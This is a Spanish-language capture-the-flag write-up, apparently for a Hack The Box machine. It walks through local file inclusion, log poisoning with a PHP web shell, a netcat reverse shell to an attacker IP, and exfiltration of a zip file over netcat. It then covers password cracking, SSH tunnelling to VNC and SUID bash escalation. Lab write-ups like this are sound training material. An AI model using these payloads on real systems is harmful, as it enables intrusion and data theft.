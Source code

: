 ## Summary

- IP -> 10.10.10.84
- Ports -> TCP (22, 80), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 7.2
    - 80 -> Apache httpd 2.4.29

## Recon
- Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80
Que es FreeBSD: Es un sistema de codigo abierto para computadoras basado en las CPU de arquitectura x86, Pentium. En la actualidad se ejecuta en once arquitectiras distintas como Alpha, AMD64, IA-64, MISP, PowerPC y UltraSPARC.

Buscamos en la Webpage:

Podemos ponerle al **listfile.php** -> Encontramos un **pwdbackup.txt** que al momento de ponerlo, nos da un passwd encodeada 13 veces en base64 por lo que podemos ver.
- Comando -> **curl -s -X GET "http://10.10.10.84/browse.php?file=pwdbackup.txt" | grep -v "password" | tr -d '\\n' | base64 -d | base64 -d** Miramos las cabeceras de la pagina web (tr=quitamos el salto de linea), hacerlo 13 veces la decode de base 64

Hasta que nos de la passwd.

Si no esta sanitizado podemos hacer un Local File Inclution (LFI) en la Webpage
http://10.10.10.84/browse.php?file=/etc/passwd Y cargamos el archivo passwd de la maquina y ahi podremos ver los usuarios existentes. Por lo que encontramos a charix



----------------
Otra Forma de hacer la maquina es cuando tenemos un LFI y podemos ejecutar comandos Ejecucion Remota de Comandos (RCE) , ahi podemos hacer un Log Poisoning y apuntar a archivos Logs.

Buscamos en Google Freebsd Apache /var/log file 
En FreeBSD la ruta es diferente:
	**/var/log/httpd-access.log** Para ver los log en la Webpage, esto se colocara despues del = de la url de arriba.
	http://10.10.10.84/browse.php?file=/var/log/httpd-access.log  De esta manera...

Ahora nos abrimos el BurpSuite. Para poder capturar la peticion de la url http://10.10.10.84/rce
Una vez dentro de BuroSuite, lo capturamos con la finalidad de que podamos ver el:

Y lo modificaremos en el Repeater
- User-Agent: Mozilla/5.0 ...

En donde ahi podremos borrar el contenido del User-Agent y colocar codigo php para hacer el envenenamiento (Poisoning)
El codigo php inicia ?php
- User-agent: <?p system($_GET['cmd']);  ?>

Ahora en el BurpSuite le damos en el boton Send del Repeater

Y lo que buscaremos injectando el codigo php es que cuando modifiquemos la url de esta manera:
http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=whoami
Nos pueda interpretar los comandos que querramos

Sin desactivar el FoxyProxy de la web, nos ponemos a colocar firenetes comandos:
	whoami
	hostname
	ifconfig
	which nc

Quitamos el FoxyProxy de la web 
Ahora nos ponemos en escucha por el puerto 443 del netcat ya que confirmamos que lo tiene. 
- Comando -> **nc -nlvp 443** Nos ponemos en escucha por el puerto 443, maquinas Linux

Buscamos en Google 'Monkey pnetester reverse shell' y nos da una linea que debemos de poner en la url de la web para netcat, debe ser la segunda linea que encontremos en la pagina, ya que no sabemos si el netcat es antiguo o no.

- http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.17 443 >/tmp/f
	Colocamos nuestra ip en ese comando y el puerto del netcat 
	Debemos de modificar el **&** y pasarlo a formato url-encode que es **%26**

Y este nos da el usuario www


---


## User
Ahora nos conectamos por SSH:
- Comando -> **ssh < user>@< IP>** Para conectarnos por ssh

Podemos ver la primer flag user.txt

- Comando -> **ls -l** Miramos el contenido del directorio y sus permisos (l=ele)
- Comando -> **nc -nlvp 443 > secret.zip** Nos ponemos en escucha por el puerto 443 en nuestra maquina de atacante, maquinas Linux y lo que recibamos lo colocamos en el archivo secret.zip

- Comando -> **nc 10.10.17.4 443 < secret.zip** En la maquina victima hacemos esto para mandar el arhivo que hemos encontrado a la maquina de atacante.

- Comando -> **7z l secret.zip** (l=ele) Podemos ver el contenido interno del archivo zip, gz, bzip2, etc...
- Comando -> **7z x secret.zip** (l=ele) Podemos extraer el contenido interno del archivo zip, gz, bzip2, etc...

Como nos pide una passwd. Podemos usar la herramienta John para que primero nos de un Hash y despues crackear y obtener su passwd.

- Comando -> **zip2john secret.zip > hash** Para que nos devielva el Hash y asi despues poderlo crackear y el resultado del hash lo metemos a un archivo llamado 'hash'.
- Comando -> **john -w:/usr/share/wordlists/rockyou.txt hash** Aplicamos un ataque de fuerza bruta a un archivo hash y como resultado no lo ha encontrado

Recordamos que tenemos una passwd y la colocamos para ver si es la misma. 

Una vez descargado el archivo, procedemos a ver le contenido 
- Comando -> **cat secret** Observamos el contenido del archivo, y miramos cosas raras.
- Comando -> **xxd secret** Para mirar los magic numbers del archivo

Ponemos en Google 'List of Signatures' para poder ver cual seria el resultado de los magic numbers. Y encontramos que es:
no es nada

Ahora seguiremos listando la maquina:
- Comando -> **netstat -na -p tcp** Podemos ver los puertos abiertos en la mquina 
- Comando -> **ps -faux** Listas los procesos que corren en la maquina Linux
Encontramos un **tightvnc**. Esto es una aplicacion informatica de codigo abierto para administracion remota multiplataforma que utiliza el protocolo RFB deVNC para controlar panatlla de otro equipo de forma remota. Y los puerto que comunmente corre es el 5900-5901, 5800-5801

Tenemos el puerto 5901 abierto en la maquina victima, por lo que lo podemos usar para hacer la conexion con el viewer sin usar chisel. 
Ahora usaremos un Dinamic Port Forwarding 

Modificaremos el:
**nano /etc/proxychains.conf** Modificaremo este archivo en nuestra maquina
	socks4 127.0.0.1 1080 -> Haremos que la conexion para nuestra maquina se efectue en el puerto 1080


## Root
- Comando -> **ssh < user>@< IP> -D 1080** Para conectarnos por ssh (D=Dinamic Port Forwarding) y colocamos el puerto que anteriormente habiamos configurado y le colocamos la passwd que teniamos de Charix
- Comando -> **proxychains vncviewer -passwd secret 127.0.0.1:5901** Nos permite conectarnos al vncviewer de una maquina remotamente
	passwd -> Archivo qiue habiamos encontrado con las passwd llamado secret

Podremos visualizar la flag root.txt

Ademas podemos darle privilegios al usuario Charix para que desde la conexion que ya tenemos por ssh podamos convertirnos en root. 
- Comando -> **chmod u+s /bin/bash** Para darle privilegios a la bash suid en este caso desde la interfaz remota
- Comando -> **ls -l /bin/bash** Miramos los privilegios de la bash en el usuario Charix
- Comando -> **/binbash** Colocamos ese comando en el usuario Charix y ya seriamos root